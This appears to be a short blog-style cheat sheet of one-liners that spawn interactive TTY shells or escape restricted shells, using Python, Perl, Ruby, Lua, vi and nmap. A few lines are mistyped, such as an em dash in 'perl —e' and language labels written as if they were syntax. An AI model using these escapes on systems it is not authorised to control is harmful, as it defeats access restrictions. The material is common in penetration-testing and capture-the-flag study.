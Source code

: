 ```yaml
---
layout: post
title: TTY Spawn Shell Cheat Sheet 
description: This is a collection of one-liners commands that will allow you to spawn TTY shells!
---
```

 
## very useful for escaping jail shells. 
```perl
python -c 'import pty; pty.spawn("/bin/sh")'
```
```perl
echo os.system('/bin/bash')
```
```perl
/bin/sh -i
```
```perl
perl —e 'exec "/bin/sh";'
```
```perl
perl: exec "/bin/sh";
```
```perl
ruby: exec "/bin/sh"
```
```perl
lua: os.execute('/bin/sh')
```
```perl
exec "/bin/sh"
```
From within vi
```perl
:!bash
```
From within vi too
```perl
:set shell=/bin/bash:shell
```
From within nmap
```perl
!sh
```


